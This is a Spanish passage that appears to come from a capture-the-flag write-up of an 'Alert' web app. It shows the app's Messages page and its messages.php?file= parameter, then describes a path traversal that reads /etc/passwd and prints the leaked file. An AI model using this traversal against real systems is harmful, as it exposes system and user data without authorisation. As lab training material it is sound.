 Hay una sección nueva de mensajes cuyo contenido es:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

Esto es lo que está usando el usuario para ver los mensajes que le enviamos a través del formulario del contacto.

Vemos que el archivo PHP messages nos permite indicar un archivo a leer... y probando un path traversal para leer el `/etc/passwd`:

```html
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```